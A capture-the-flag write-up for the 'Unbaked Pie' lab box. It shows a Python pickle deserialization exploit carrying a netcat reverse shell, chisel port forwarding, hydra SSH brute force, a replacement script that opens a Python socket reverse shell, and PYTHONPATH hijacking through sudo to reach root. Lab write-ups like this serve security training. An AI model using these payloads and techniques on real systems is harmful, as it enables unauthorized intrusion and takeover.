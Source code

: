 

#  __Unbaked_Pie Writeup__

![](images/BoxImage.png)

### __First Stage : Enumeration__



So let's start with a nmap scan.

```
# Nmap 7.91 scan initiated Fri Dec 11 11:56:00 2020 as: nmap -sC -T4 -vv -p- -oN nmapscan -Pn 10.10.44.92
Nmap scan report for 10.10.44.92
Host is up, received user-set (0.16s latency).
Scanned at 2020-12-11 11:56:08 IST for 362s
Not shown: 65534 filtered ports
Reason: 65534 no-responses
PORT     STATE SERVICE   REASON
5003/tcp open  filemaker syn-ack

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Dec 11 12:02:10 2020 -- 1 IP address (1 host up) scanned in 371.24 seconds
```


Since only one port is open lets visit it.

![](images/website.png)



So after using burpsuite to intercept the requests , we can find an interesting cookie named __search_cookie__.

![](images/request.png)



If we decode the __search_cookie__ using cyberchef.

![](images/decode.png)

I searched for **test** hence the search_cookie has a value of test but why are the dots generated ? 

Maybe the query is being sereialized before sending ?

After some google search I found it is called pickling which is done using python to sereialze objects . 


I found this article : https://davidhamann.de/2020/04/05/exploiting-python-pickle/


### __Second Stage : Initial Access__
So the exploit code is:

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.74.96 1234 >/tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

First we have to test whether this is working or not , hence we can edit the cmd to 

>ping -c 3   \<ip>

And listen for icmp request with

>sudo tcpdump -i tun0 icmp

So lets run the test.py 

![](images/test.png)

Lets put it in the search field and enter 

![](images/working.png)


Hence it is working we can run the real exploit code.


And we get the shell.

![](images/initial.png)


And I guess this is a container and we have to escape this in order to get user access .


Use these commands to upgrade shell.


```BASH
python3 -c"import pty;pty.spawn('/bin/bash')"
#then press CTRL-Z 
stty raw -echo ; fg
#press enter two times
export TERM=screen
```

After some searching and tweaking I saw __.bash_history__ file . 

![](images/bash_history.png)


We can see a user **ramsey** and internal ip **172.17.0.1**.

### __Third Stage : Escaping docker to user__

So we need to do  port forwarding .

I am using [chisel](https://github.com/jpillora/chisel) to port forward.

Start a server using :
>./chisel server -p 10000 --reverse

And in the victim machine use:
>./chisel client \<vpn_ip>:10000 R:4444:172.17.0.1:22

![](images/listener.png)

![](images/victim.png)



Since we dont know the password let brutefoce using hydra

> hydra -l ramsey -P /usr/share/wordlists/rockyou.txt localhost ssh -s 4444

![](images/hydra.png)


Next we login in using ssh .

![](images/user.png)


### __Fourth Stage : Pivoting from ramsey to oliver__


So if we try 
>sudo -l

![](images/ramsey.png)


We copy vuln.py to another file and delete it .

```BASH
cp vuln.py vuln.py.bak
rm vuln.py
```

We edit the vuln.py to this
```PYTHON
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.74.96",3333))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

We get shell as oliver.

### __Fifth Stage : Oliver to root__ 
And we see what permissions we have.

![](images/oliver.png)

And the contents of **dockerScript.py**

```PYTHON
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
```



We have permission to set env so we create a docker.py and add a reverse python shell to this file and execute this command

>sudo PYTHONPATH=/home/oliver /usr/bin/python /opt/dockerScript.py

![](images/exploit.png)


Now we get a shell.


![](images/root.png)






